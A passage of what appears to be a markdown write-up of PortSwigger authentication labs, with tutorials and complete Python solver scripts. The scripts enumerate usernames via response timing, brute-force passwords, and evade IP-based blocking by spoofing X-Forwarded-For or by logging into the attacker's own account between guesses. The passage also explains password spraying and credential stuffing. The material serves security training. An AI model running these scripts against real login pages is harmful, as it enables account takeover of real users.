                print(f'[*] {i}/{len(usernames)}', file=sys.stderr)

    if args.phase == 'usernames':
        print('\nVALID USERNAMES: ' + (', '.join(valid) if valid else 'none'))
        if args.csv:
            with open(args.csv, 'w', newline='', encoding='utf-8') as f:
                w = csv.writer(f)
                w.writerow(('phase', 'user', 'pass', 'status', 'len', 'location', 'note'))
                w.writerows(rows)
            print(f'[*] CSV: {args.csv}', file=sys.stderr)
        return 0 if valid else 1

    # ---------- PHASE 2: passwords ----------
    targets = [args.username] if args.username else valid
    if not targets:
        print('[-] no valid username; skipping phase 2', file=sys.stderr)
        return 1

    print(f'[*] PHASE 2: {len(passwords)} password for {targets}', file=sys.stderr)
    hits: list[tuple[str, str, int, str]] = []
    for u in targets:
        for i, pw in enumerate(passwords, 1):
            r = attempt('pass', u, pw)
            if r is None:
                continue
            status = r.status_code
            length = len(r.text or '')
            loc = r.headers.get('Location', '')

            if status in (301, 302, 303, 307, 308):
                ok, why = True, 'redirect'
            else:
                # 200 = failed login. Do NOT use length-diff (false positives).
                ok, why = False, f'no-redirect (len={length}, status={status})'

            if ok:
                print(f'[+] HIT {u}:{pw} status={status} len={length} {loc} ({why})',
                      file=sys.stderr)
                hits.append((u, pw, status, loc))
                if not args.all:
                    break
            elif i % 25 == 0:
                print(f'[*] {u}: {i}/{len(passwords)}', file=sys.stderr)
        if hits and not args.all:
            break

    if args.csv:
        with open(args.csv, 'w', newline='', encoding='utf-8') as f:
            w = csv.writer(f)
            w.writerow(('phase', 'user', 'pass', 'status', 'len', 'location', 'note'))
            w.writerows(rows)
        print(f'[*] CSV: {args.csv}', file=sys.stderr)

    if hits:
        for u, pw, st, loc in hits:
            print(f'HIT {u}:{pw} ({st})')
        return 0
    print('[-] password not found', file=sys.stderr)
    return 1


if __name__ == '__main__':
    sys.exit(main())
```

**How to run:**

```bash
python3 Username-enumeration-via-subtly-different-responses.py --url https://<id>.web-security-academy.net/login --usernames usernames.txt --passwords passwords.txt --cookie "session=..."
```

##### Reference

<details>
<summary>3. Authentication Vulnerabilities - Lab #4 Username enumeration via different responses | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=1pZTGqBgejU
Purpose: In this video, we cover Lab #4 in the Authentication module of the Web Security Academy. This lab is subtly vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

</details>

</details>


##### Lab: Username enumeration via response timing

This lab is vulnerable to username enumeration using its response times. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

<details>
<summary>Lab details, screenshots & walkthrough 0.3</summary>

- Your credentials: `wiener`:`peter`
- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

>Note: To add to the challenge, the lab also implements a form of IP-based brute-force protection. However, this can be easily bypassed by manipulating HTTP request headers.

**Screenshots:**




To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.


##### Tutorial

1. The lab blocks your IP after too many failed logins; bypass it by spoofing `X-Forwarded-For` with a new value per request.
2. Phase 1: send each username a very long password (~100 chars). If the username exists the server wastes time hashing it, so the response is noticeably slower.
3. Phase 2: brute-force the slow (valid) username's password; success = HTTP 302.
4. Log in and open **My account**.

**Script:**

```python
#!/usr/bin/env python3
"""
Username enumeration via response timing (PortSwigger lab solver).

Lab logic:
  - Too many failed logins -> your IP gets blocked. Bypass by spoofing
    X-Forwarded-For with a different value per request.
  - Timing side channel: if the username EXISTS, the server spends extra time
    hashing the submitted password, so a LONG password makes the response
    noticeably SLOWER. If the username does not exist, timing stays flat.

Phases:
  PHASE 1 (username)  long password (~100 chars) + X-Forwarded-For spoof.
                      Measure elapsed time per username.
                      valid username <=> elapsed time is an outlier (much slower).
  PHASE 2 (password)  for the valid username, try each password.
                      success <=> HTTP 301/302/303/307/308.

No hardcoded usernames or passwords — wordlists come from files.

Usage:
  python3 Username-enumeration-via-response-timing.py \
      --url https://<id>.web-security-academy.net/login \
      --cookie "session=..." \
      --usernames usernames.txt --passwords passwords.txt

  ... --long-password 100     # length of the timing probe password
  ... --slow-factor 1.5       # valid if slower than median * factor
  ... --verbose               # show elapsed time per attempt
  ... --csv timing.csv
  ... --phase usernames
  ... --phase passwords --username <found-user>
  ... --proxy http://127.0.0.1:8080
"""
from __future__ import annotations

import argparse
import csv
import re
import statistics
import sys
import time
from pathlib import Path
from urllib.parse import urlparse

try:
    import requests
    from requests import RequestException
except ImportError:
    print('error: pip3 install requests', file=sys.stderr)
    sys.exit(2)


def load_list(path: Path) -> list[str]:
    out, seen = [], set()
    for line in path.read_text(encoding='utf-8', errors='replace').splitlines():
        s = line.strip()
        if s and s not in seen:
            seen.add(s)
            out.append(s)
    return out


def main() -> int:
    ap = argparse.ArgumentParser(
        description='Username enumeration via response timing (XFF spoof).')
    ap.add_argument('--url', required=True)
    ap.add_argument('--cookie', default='')
    ap.add_argument('--usernames', default='usernames.txt')
    ap.add_argument('--passwords', default='passwords.txt')
    ap.add_argument('--user-field', default='username')
    ap.add_argument('--pass-field', default='password')
    ap.add_argument('--long-password', type=int, default=100,
                    help='length of the timing probe password (default 100)')
    ap.add_argument('--xff-header', default='X-Forwarded-For',
                    help='header used to spoof source IP (default X-Forwarded-For)')
    ap.add_argument('--xff-start', type=int, default=1)
    ap.add_argument('--slow-factor', type=float, default=1.5,
                    help='valid username if elapsed > median * factor (default 1.5)')
    ap.add_argument('--min-delay-ms', type=float, default=0.0,
                    help='optional sleep between requests (seconds)')
    ap.add_argument('--user-agent', default='Mozilla/5.0 (TimingEnumeration)')
    ap.add_argument('--proxy', default='')
    ap.add_argument('--timeout', type=float, default=30.0)
    ap.add_argument('--insecure', action='store_true')
    ap.add_argument('--all', action='store_true')
    ap.add_argument('--verbose', action='store_true')
    ap.add_argument('--csv', default='')
    ap.add_argument('--phase', choices=['usernames', 'passwords', 'both'], default='both')
    ap.add_argument('--username', default='')
    args = ap.parse_args()

    usernames = load_list(Path(args.usernames))
    passwords = load_list(Path(args.passwords))
    if not usernames or not passwords:
        print('error: username/password wordlist is empty', file=sys.stderr)
        return 2

    s = requests.Session()
    s.headers.update({
        'User-Agent': args.user_agent,
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Content-Type': 'application/x-www-form-urlencoded',
    })
    if args.cookie:
        s.headers['Cookie'] = args.cookie

    p = urlparse(args.url)
    vhost = f'{p.scheme}://{p.netloc}'
    s.headers['Origin'] = vhost
    s.headers['Referer'] = vhost + '/login'

    proxies = {'http': args.proxy, 'https': args.proxy} if args.proxy else None
    verify = not args.insecure
    probe_pw = 'A' * args.long_password

    xff_counter = args.xff_start
    rows: list[tuple[str, str, str, int, float, str]] = []

    def attempt(phase: str, user: str, pwd: str):
        nonlocal xff_counter
        headers = {args.xff_header: str(xff_counter)}
        xff_counter += 1
        body = {args.user_field: user, args.pass_field: pwd}
        t0 = time.perf_counter()
        try:
            r = s.post(args.url, data=body, headers=headers,
                       timeout=args.timeout, allow_redirects=False,
                       proxies=proxies, verify=verify)
        except RequestException as e:
            print(f'[!] error {phase} {user}: {e}', file=sys.stderr)
            time.sleep(1)
            return None
        elapsed = time.perf_counter() - t0
        loc = r.headers.get('Location', '')
        rows.append((phase, user, pwd[:24], r.status_code, round(elapsed, 4), loc))
        if args.verbose:
            print(f'    {phase:8s} {user:<16s} status={r.status_code} '
                  f'time={elapsed:.3f}s {loc}', file=sys.stderr)
        if args.min_delay_ms:
            time.sleep(args.min_delay_ms)
        return r, elapsed

    # ---------- PHASE 1: usernames (timing) ----------
    valid: list[str] = []
    if args.phase in ('usernames', 'both') and not args.username:
        print(f'[*] PHASE 1: {len(usernames)} username '
              f'(probe password len={args.long_password}, XFF spoof on)', file=sys.stderr)
        times: list[tuple[str, float]] = []
        for u in usernames:
            res = attempt('user', u, probe_pw)
            if res is None:
                continue
            _, elapsed = res
            times.append((u, elapsed))

        if times:
            vals = [t for _, t in times]
            med = statistics.median(vals)
            thr = med * args.slow_factor
            print(f'[*] median={med:.3f}s threshold={thr:.3f}s '
                  f'(factor {args.slow_factor})', file=sys.stderr)
            for u, t in times:
                if t >= thr:
                    print(f'[+] SLOW (candidate valid): {u} {t:.3f}s', file=sys.stderr)
                    valid.append(u)
            if not valid:
                # fallback: take the single slowest if nothing crossed threshold
                u, t = max(times, key=lambda x: x[1])
                print(f'[!] nothing crossed the threshold; slowest candidate: '
                      f'{u} {t:.3f}s', file=sys.stderr)
                valid.append(u)

    if args.phase == 'usernames':
        print('\nCANDIDATE USERNAMES: ' + (', '.join(valid) if valid else 'none'))
        if args.csv:
            with open(args.csv, 'w', newline='', encoding='utf-8') as f:
                w = csv.writer(f)
                w.writerow(('phase', 'user', 'pass', 'status', 'elapsed', 'location'))
                w.writerows(rows)
            print(f'[*] CSV: {args.csv}', file=sys.stderr)
        return 0 if valid else 1

    # ---------- PHASE 2: passwords ----------
    targets = [args.username] if args.username else valid
    if not targets:
        print('[-] no valid username; skipping phase 2', file=sys.stderr)
        return 1

    print(f'[*] PHASE 2: {len(passwords)} password for {targets}', file=sys.stderr)
    hits: list[tuple[str, str, int]] = []
    for u in targets:
        for pw in passwords:
            res = attempt('pass', u, pw)
            if res is None:
                continue
            r, _ = res
            if r.status_code in (301, 302, 303, 307, 308):
                loc = r.headers.get('Location', '')
                print(f'[+] HIT {u}:{pw} status={r.status_code} {loc}', file=sys.stderr)
                hits.append((u, pw, r.status_code))
                if not args.all:
                    break
        if hits and not args.all:
            break

    if args.csv:
        with open(args.csv, 'w', newline='', encoding='utf-8') as f:
            w = csv.writer(f)
            w.writerow(('phase', 'user', 'pass', 'status', 'elapsed', 'location'))
            w.writerows(rows)
        print(f'[*] CSV: {args.csv}', file=sys.stderr)

    if hits:
        for u, pw, st in hits:
            print(f'HIT {u}:{pw} ({st})')
        return 0
    print('[-] password not found', file=sys.stderr)
    return 1


if __name__ == '__main__':
    sys.exit(main())
```

**How to run:**

```bash
python3 Username-enumeration-via-response-timing.py --url https://<id>.web-security-academy.net/login --usernames usernames.txt --passwords passwords.txt --cookie "session=..."
```

##### Reference

<details>
<summary>4. Authentication Vulnerabilities - Lab #5 Username enumeration via response timing | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=Non_U2tGG6o
Purpose: In this video, we cover Lab #5 in the Authentication module of the Web Security Academy. This lab is vulnerable to username enumeration using its response times. To solve the lab, we enumerate a valid username, brute-force this user's password, then access their account page.

</details>

<details>
<summary>5. Username enumeration via response timing — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=RO5Wo5jjbWE
Purpose: This video shows the lab solution of "Username enumeration via response timing" from Web Security Academy (Portswigger)

</details>

</details>

### Flawed brute-force protection

It is highly likely a brute-force attack will involve many failed guesses before the attacker succesfully compromise an account. Logically, brute-force protection revolves around trying to make it as tricky as possible to automate the process and slow down the rate at which an attacker can attempt logins. The two most common ways of preventing brute-force attacks are:

- Locking the account that the remote user is trying to access if they make too many failed login attempts.
- Blocking the remote user's IP address if they make too many login attemps in quick succession.

Bot appoaches offer varying degrees of protection, but neither is invulnerable, especially if implemented using flawed logic.

For example, you might sometimes find that your IP is blocked if you fail to log in too many times. In some implementations, the counter for the number of failed attempts resets if the IP owner logs in succesfully. This means an attacker would simply have to log in to their own account every few attempts to prevent this limit from ever being reached.

In this case, merely including your own login credentials at regular intervals throughout the wordlist is enough to render this defense virtually useless.

##### Lab: Broken brute-force protection, IP block

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

<details>
<summary>Lab details, screenshots & walkthrough 0.4</summary>

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate Passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

>Hint: Advanced users may want to solve this lab by using a macro or the Turbo Intruder extension. However, it is possible to solve the lab without using these advanced features.

**Screenshots:**








##### Tutorial

1. Three failed logins in a row block your IP for one minute.
2. The failed-attempt counter resets every time you log in successfully — so log in with your own account (`wiener:peter`) before each guess against `carlos`.
3. Each cycle: POST login as `wiener` (resets counter) then POST login as `carlos` with the next candidate password. A 302 means the password is correct.
4. Log in as `carlos` and open **My account**.

**Script:**

```python
#!/usr/bin/env python3
"""
Broken brute-force protection, IP block (PortSwigger lab solver).

Lab logic:
  - 3 failed logins in a row -> your IP is blocked for 1 minute.
  - The failed-attempt counter resets whenever you log in successfully.
  - So: before every guess against the victim, log in with your own account to
    reset the counter. That keeps the counter at 1 and never trips the block.

Attack:
    for each candidate password:
        POST /login  username=<self>  password=<self-pass>   # valid -> counter reset
        POST /login  username=<victim> password=<guess>      # 302 = solved

No hardcoded credentials: self user/pass and victim come from CLI flags.
Wordlists come from files (default passwords.txt).

Usage:
  python3 ai-tools/portswigger/broken_bruteforce_ip_block.py \
      --url https://<id>.web-security-academy.net/login \
      --cookie "session=..." \
      --self-user wiener --self-pass peter \
      --victim carlos \
      --passwords passwords.txt

  ... --max-fails 2        # reset before counter reaches this (default 2)
  ... --delay 0.2          # seconds between requests
  ... --verbose            # show status per attempt
  ... --csv attempts.csv
  ... --proxy http://127.0.0.1:8080
"""
from __future__ import annotations

import argparse
import csv
import re
import sys
import time
from pathlib import Path
from urllib.parse import urlparse

try:
    import requests
    from requests import RequestException
except ImportError:
    print('error: pip3 install requests', file=sys.stderr)
    sys.exit(2)

BLOCK_RE = re.compile(r'too many incorrect login attempts', re.I)


def load_list(path: Path) -> list[str]:
    out, seen = [], set()
    for line in path.read_text(encoding='utf-8', errors='replace').splitlines():
        s = line.strip()
        if s and s not in seen:
            seen.add(s)
            out.append(s)
    return out


def main() -> int:
    ap = argparse.ArgumentParser(
        description='Broken brute-force protection (IP block) lab solver.')
    ap.add_argument('--url', required=True, help='https://<id>.web-security-academy.net/login')
    ap.add_argument('--cookie', default='', help='session cookie value')
    ap.add_argument('--self-user', required=True, help='your own username (counter reset)')
    ap.add_argument('--self-pass', required=True, help='your own password')
    ap.add_argument('--victim', required=True, help="victim's username")
    ap.add_argument('--passwords', default='passwords.txt')
    ap.add_argument('--user-field', default='username')
    ap.add_argument('--pass-field', default='password')
    ap.add_argument('--max-fails', type=int, default=2,
                    help='reset the counter before this many consecutive failures (default 2)')
    ap.add_argument('--user-agent', default='Mozilla/5.0 (BruteForceProtection)')
    ap.add_argument('--proxy', default='')
    ap.add_argument('--delay', type=float, default=0.0)
    ap.add_argument('--timeout', type=float, default=20.0)
    ap.add_argument('--insecure', action='store_true')
    ap.add_argument('--verbose', action='store_true')
    ap.add_argument('--csv', default='')
    args = ap.parse_args()

    passwords = load_list(Path(args.passwords))
    if not passwords:
        print('error: password wordlist is empty', file=sys.stderr)
        return 2

    s = requests.Session()
    s.headers.update({
        'User-Agent': args.user_agent,
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.9',
        'Content-Type': 'application/x-www-form-urlencoded',
    })
    if args.cookie:
        s.headers['Cookie'] = args.cookie

    p = urlparse(args.url)
    vhost = f'{p.scheme}://{p.netloc}'
    s.headers['Origin'] = vhost
    s.headers['Referer'] = vhost + '/login'

    proxies = {'http': args.proxy, 'https': args.proxy} if args.proxy else None
    verify = not args.insecure

    rows: list[tuple[str, str, str, int, str]] = []

    def post(user: str, pwd: str):
        try:
            r = s.post(args.url,
                       data={args.user_field: user, args.pass_field: pwd},
                       timeout=args.timeout, allow_redirects=False,
                       proxies=proxies, verify=verify)
        except RequestException as e:
            print(f'[!] request error ({user}) -> {e}', file=sys.stderr)
            time.sleep(1)
            return None
        if args.delay:
            time.sleep(args.delay)
        return r

    def reset_counter() -> bool:
        """Log in with your own account to reset the failed-attempt counter."""
        r = post(args.self_user, args.self_pass)
        if r is None:
            return False
        ok = r.status_code in (301, 302, 303, 307, 308)
        rows.append(('reset', args.self_user, args.self_pass, r.status_code,
                     r.headers.get('Location', '')))
        if args.verbose:
            print(f'    reset    {args.self_user:<10s} status={r.status_code} '
                  f'{r.headers.get("Location", "")}', file=sys.stderr)
        return ok

    # make sure we start from a clean counter
    reset_counter()

    print(f'[*] victim={args.victim} passwords={len(passwords)} '
          f'reset_user={args.self_user}', file=sys.stderr)

    fails = 0
    hit = None
    for i, pw in enumerate(passwords, 1):
        r = post(args.victim, pw)
        if r is None:
            continue
        body = r.text or ''
        status = r.status_code
        loc = r.headers.get('Location', '')
        rows.append(('guess', args.victim, pw, status, loc))

        if status in (301, 302, 303, 307, 308):
            print(f'[+] HIT {args.victim}:{pw} status={status} {loc}', file=sys.stderr)
            hit = pw
            break

        if BLOCK_RE.search(body):
            print(f'[-] IP blocked at attempt {i}; waiting 60s', file=sys.stderr)
            rows.append(('blocked', args.victim, pw, status, ''))
            time.sleep(60)
            reset_counter()
            fails = 0
            continue

        fails += 1
        if args.verbose:
            print(f'    [{i:3d}] {pw:<14s} status={status} fails={fails}', file=sys.stderr)
        elif i % 10 == 0:
            print(f'[*] {i}/{len(passwords)} tried', file=sys.stderr)

        if fails >= args.max_fails:
            reset_counter()
            fails = 0

    if args.csv:
        with open(args.csv, 'w', newline='', encoding='utf-8') as f:
            w = csv.writer(f)
            w.writerow(('action', 'user', 'password', 'status', 'location'))
            w.writerows(rows)
        print(f'[*] CSV: {args.csv}', file=sys.stderr)

    if hit:
        print(f'HIT {args.victim}:{hit}')
        return 0
    print('[-] password not found', file=sys.stderr)
    return 1


if __name__ == '__main__':
    sys.exit(main())
```

**How to run:**

```bash
python3 Broken-brute-force-protection-IP-block.py --url https://<id>.web-security-academy.net/login --self-user wiener --self-pass peter --victim carlos --passwords passwords.txt --cookie "session=..."
```

##### Reference

<details>
<summary>5. Authentication Vulnerabilities - Lab #6 Broken brute-force protection, IP block | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=qXt5yqGa8ZA
Purpose: In this video, we cover Lab #6 in the Authentication module of the Web Security Academy. This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, we brute-force the victim's password, then log in and access their account page.

</details>

</details>

### Account locking

One way in which websites try to prevent brute-forcing is to lock the account if  certain suspicious criteria are met, usually a set number of failed login attemps. Just as with normal login errors, responses from the server indicating that an account is locked can also help an attacker to enumerate usernames.

Locking an account offers a certain amount of protection agains targeted brute-forcing of a specific account. However, this approach fails to adequately prevent brute-force attacks in which the attacker is just trying to gain access to any random account they can.

### Account locking - Continued 1

For example, the following method can be used around this kind of protection:

1. Establish a list of candidate usernames that are likely to be valid. This could be through username enumeration or simply based on a list common usernames.
2. Decide on a very small shortlist of passwords that you think at least one user is likely to have. Crucially, the number of passwords you select must not exceed the number of login attempts allowed. For example, if you have worked out that limit is 3 attempts, you need to pick a maximum of 3 passwords guesses.
3. Using a tool such as Burp Intruder, try each of the selected passwords with each of the candidate usernames. This way, you can attempt to brute-force every account without triggering the account lock. You only need a single user to use one of the three passwords in order to compromise an account.

### Account locking - Continued 2

Account locking also fails to protect agains credential stuffing attacks. This involves using a massive dictionary of `username:password` pairs, composed of genuine login credentials stolen in data breaches. Credential stuffing relies on the fact that many people reuse the same username and password on mutiple websites and, therefore, there is a chance that some of the compromised credentials in the dictionary are also valid on the target website. Account locking does not protect against credential stuffing because each username is only being attempted once. Credential stuffing is particularly dangerous because it can sometimes result in the attacker compromising many different accounts with just a single automated attack.

##### Lab: Username enumeration via account lock

This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

<details>
<summary>Lab details, screenshots & walkthrough 0.5</summary>

- Your credentials: `wiener`:`peter`
- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

**Screenshots:**




